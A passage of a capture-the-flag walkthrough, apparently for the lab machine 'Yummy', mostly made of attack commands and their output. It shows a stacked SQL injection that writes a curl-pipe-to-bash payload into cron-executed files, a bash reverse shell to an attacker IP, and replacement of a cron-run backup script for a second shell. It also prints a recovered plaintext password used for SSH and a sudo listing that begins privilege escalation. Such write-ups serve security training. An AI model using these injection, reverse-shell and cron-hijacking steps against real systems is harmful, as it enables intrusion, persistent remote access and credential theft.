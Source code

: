 Using this we can clear out `dbstatus.json` with:

```
http://yummy.htb/admindashboard?s=&o=ASC;select+"curl+10.10.14.5/rev.sh+|bash;"+INTO+OUTFILE++'/data/scripts/dbstatus.json'; 
```
and then write a script that matches the regular expression using a payload:
```
http://yummy.htb/admindashboard?s=&o=ASC;select+"curl+10.10.14.5/rev.sh+|bash;"+INTO+OUTFILE++'/data/scripts/fixer-vSHELL';
```
And after some time we get a shell:
# MySQL 
```
Ncat: Connection from 10.10.11.36.
Ncat: Connection from 10.10.11.36:49988.
bash: cannot set terminal process group (2017): Inappropriate ioctl for device
bash: no job control in this shell
mysql@yummy:/var/spool/cron$
```
Seeing that `app_backup.sh` is run by `www-data` we can upgrade our shell by writing a new file called `rev2.sh`:
```
bash -i >&/dev/tcp/10.10.14.5/8001 0>&1
```
grabbing that file, and replacing app_backup.sh, we can use `mv` since we have write access in the directory:
```console
mysql@yummy
$ wget 10.10.14.5/rev2.sh
$ mv app_backup.sh app_backup.bak
$ mv rev2.sh app_backup.sh
```
we wait for the cron job and get a shell:
# WWW-DATA
```
Ncat: Connection from 10.10.11.36.
Ncat: Connection from 10.10.11.36:55190.
bash: cannot set terminal process group (2713): Inappropriate ioctl for device
bash: no job control in this shell
www-data@yummy:~$
```
we find `/var/www/app-qatesting/.hg` has the following credentials:

`qa`:`jPAd!XQCtn8Oc@2B`

we can SSH!:
```console
$ssh qa@yummy.htb
qa@yummy:~$
```
# Privilege Escalation
`qa` has the following sudo privileges:
```console
$ sudo -l
Matching Defaults entries for qa on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```
